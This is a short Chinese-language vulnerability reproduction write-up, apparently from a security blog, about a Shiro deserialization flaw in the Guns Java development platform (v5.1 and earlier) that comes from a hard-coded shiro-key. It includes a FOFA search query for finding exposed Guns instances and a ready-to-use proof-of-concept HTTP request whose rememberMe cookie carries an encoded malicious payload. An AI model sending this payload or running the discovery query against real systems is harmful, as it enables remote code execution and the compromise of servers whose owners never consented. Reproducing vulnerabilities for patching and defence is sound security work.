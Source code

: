 
# Guns 快速开发平台 Shiro 反序列化漏洞复现

### 0x01 产品简介

  Guns 是一个现代化的 Java 应用开发框架，基于主流技术 Spring Boot 2 + [Vue3](https://so.csdn.net/so/search?q=Vue3&spm=1001.2101.3001.7020)，Guns 的核心理念是提高开发人员开发效率，降低企业信息化系统的开发成本。

### 0x02 漏洞概述

 Guns v5.1 及之前的版本存在 shiro [反序列化漏洞](https://so.csdn.net/so/search?q=%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞源于软件存在硬编码的 shiro-key，攻击者可利用该 key 生成恶意的序列化数据，在服务器上执行任意代码，执行系统命令、或打入内存马等，获取服务器权限。

### 0x03 影响范围

Guns <= v5.1

### 0x04 复现环境

FOFA：app="Guns"

![](assets/1701678050-625675332d7aed3e9f6fe1080eb49bce.png)

### 0x05 漏洞复现 

PoC

```http
GET / HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cookie: rememberMe=ZTE4ZUI2ZmNlQ0I1N2VlMIo/Wyvlhprf3YyQ7Uv0S1ylHBAbcj1lccluzsWCtG5HF01/y+s6ZI6S12zsdz9N+2nqYahiFMk8s+/RwNucYR8lqS9REzzXlF3orc/ZFjlRR8h0Lgfn4lpRxZnSGYCVh0neiT/ZQCT8tffIhFf0FthINEIn00tPmGJpjCTG+dc5Jmc5
```

